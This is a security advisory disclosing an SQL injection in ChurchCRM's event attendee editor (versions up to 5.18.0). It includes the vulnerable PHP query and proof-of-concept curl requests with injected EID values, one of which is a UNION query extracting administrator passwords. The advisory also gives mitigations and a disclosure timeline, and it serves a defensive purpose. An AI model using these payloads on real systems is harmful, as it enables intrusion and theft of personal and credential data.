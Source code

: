 # ChurchCRM — SQL Injection in EditEventAttendees.php (<= 5.18.0)

**Disclosure status:** Reported to vendor (GitHub Security Advisory GHSA-hxf4-3vhp-wqcq). No vendor response after 2+ weeks. Potentially addressed in v5.19.0 without acknowledgment.

**Affected product**
- ChurchCRM — versions **<= 5.18.0**

**Summary**
A critical SQL injection vulnerability in ChurchCRM's Event Attendee Editor allows authenticated users to execute arbitrary SQL commands against the MySQL database. The vulnerability enables complete database compromise, extraction of sensitive church member data, administrative credential theft, and potential system takeover through database manipulation.

**Required privileges**
- Any authenticated user account (no administrative privileges required)

**Impact**
- Complete database compromise with full read/write access
- Extraction of all church member personal and financial information
- Administrative credential theft enabling privilege escalation
- Data integrity attacks through modification or deletion of records
- Potential for persistent backdoor installation via database manipulation

**Technical Details**
The vulnerability exists in `EditEventAttendees.php` at line 60 where the `EID` (Event ID) parameter from `$_POST['EID']` is directly concatenated into SQL queries without validation or parameterized statements:

```php
$sSQL = 'SELECT person_id, per_LastName FROM event_attend JOIN person_per ON person_per.per_id = event_attend.person_id WHERE event_id = ' . $EventID . ' ORDER by per_LastName, per_FirstName';
```

The vulnerability occurs because:
- User input is directly concatenated into SQL query strings
- No input validation or sanitization is performed
- Parameterized queries are not used
- Raw SQL execution allows UNION-based data extraction

**Proof-of-Concept**

1. **Baseline Request** (Normal behavior):
   ```bash
   curl 'http://[target]/EditEventAttendees.php' \
     -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: CRM-[session-cookie]' \
     --data-raw 'EID=1&EName=test&EDesc=test&EDate=test&Action=test'
   ```
   **Result:** HTTP 200 (Normal response)

2. **SQL Injection Detection**:
   ```bash
   curl 'http://[target]/EditEventAttendees.php' \
     -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: CRM-[session-cookie]' \
     --data-raw 'EID=1'\'' OR 1=1-- &EName=test&EDesc=test&EDate=test&Action=test'
   ```
   **Result:** HTTP 500 (SQL Error - confirms injection vulnerability)

3. **UNION-based Data Extraction**:
   ```bash
   curl 'http://[target]/EditEventAttendees.php' \
     -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: CRM-[session-cookie]' \
     --data-raw 'EID=1 UNION SELECT 1,'\''EXTRACTED_DATA'\'' -- &EName=test&EDesc=test&EDate=test&Action=test'
   ```

4. **Database Credential Extraction**:
   ```bash
   curl 'http://[target]/EditEventAttendees.php' \
     -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: CRM-[session-cookie]' \
     --data-raw 'EID=1 UNION SELECT usr_PersonID, usr_Password FROM user_usr WHERE usr_admin=1 -- &EName=test&EDesc=test&EDate=test&Action=test'
   ```

**Confirmed results (observed)**
- SQL injection confirmed through error-based detection
- UNION injection successfully extracts data from database
- Administrative credentials accessible through user table queries
- Injected data appears directly in the attendee management interface
- Complete database schema enumeration possible

**Attack Scenarios**
1. **Complete Database Dump**: Extract all church member data, financial records, and system configuration
2. **Credential Harvesting**: Obtain administrator passwords for privilege escalation
3. **Data Manipulation**: Modify or delete critical church records and financial data
4. **Privacy Breach**: Access sensitive member information including contact details and donation history
5. **System Backdoor**: Insert malicious data or accounts for persistent access

**Mitigation / Workarounds**
- **Immediate**: Restrict access to event management functionality to trusted users only
- **Recommended vendor fixes**:
  - Implement parameterized queries for all database interactions
  - Add comprehensive input validation for all POST parameters
  - Use prepared statements with bound parameters
  - Implement proper error handling to prevent information disclosure
  - Add SQL injection detection and prevention mechanisms

**Disclosure timeline**
- 2025-09-26 — Reported via GitHub Security Advisory GHSA-hxf4-3vhp-wqcq
- 2025-10-05 — ChurchCRM v5.19.0 released with unspecified security improvements
- 2025-10-08 — No vendor response received; publishing advisory for CVE coordination

**References**
- GitHub Security Advisory: GHSA-hxf4-3vhp-wqcq
- ChurchCRM Event Attendees: `EditEventAttendees.php:60`

**Contact**
- Reporter: uartu0@gmail.com

---

This advisory documents a critical SQL injection vulnerability that allows any authenticated user to compromise the entire ChurchCRM database. The vulnerability provides access to sensitive church member information, financial records, and administrative credentials, representing a severe privacy and security risk for religious organizations using this software.